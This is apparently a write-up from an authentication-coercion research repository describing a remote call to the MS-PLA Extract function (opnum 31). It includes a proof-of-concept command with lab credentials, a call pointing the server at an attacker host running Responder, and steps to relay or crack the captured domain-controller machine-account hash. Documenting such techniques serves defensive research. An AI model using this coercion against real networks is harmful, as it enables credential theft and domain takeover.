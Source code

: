 # MS-PLA - Remote call to Extract (opnum 31)

## Summary

 - **Protocol**: [[MS-PLA]: Performance Logs and Alerts Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pla/d752a77f-442f-4e38-8a40-4b5258e83700)

 - **Protocol UUID**: 03837520-098b-11d8-9414-505054503030

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`Extract`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pla/e0fbbb46-286e-4d68-bd3b-a84238f80e1a)

 - **Function operation number**: `31`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-PLA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pla/d752a77f-442f-4e38-8a40-4b5258e83700) protocol (with uuid `03837520-098b-11d8-9414-505054503030` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-PLA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pla/d752a77f-442f-4e38-8a40-4b5258e83700) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-PLA]: Performance Logs and Alerts Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pla/d752a77f-442f-4e38-8a40-4b5258e83700) and allows to call RPC functions of this protocol. We will then call the remote [`Extract`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pla/e0fbbb46-286e-4d68-bd3b-a84238f80e1a) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
Extract('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT Extract(
   [in] BSTR CabFilename,
   [in] BSTR DestinationPath
 );
```

## References

 - Documentation of protocol [MS-PLA]: Performance Logs and Alerts Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pla/d752a77f-442f-4e38-8a40-4b5258e83700

 - Documentation of function `Extract`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pla/e0fbbb46-286e-4d68-bd3b-a84238f80e1a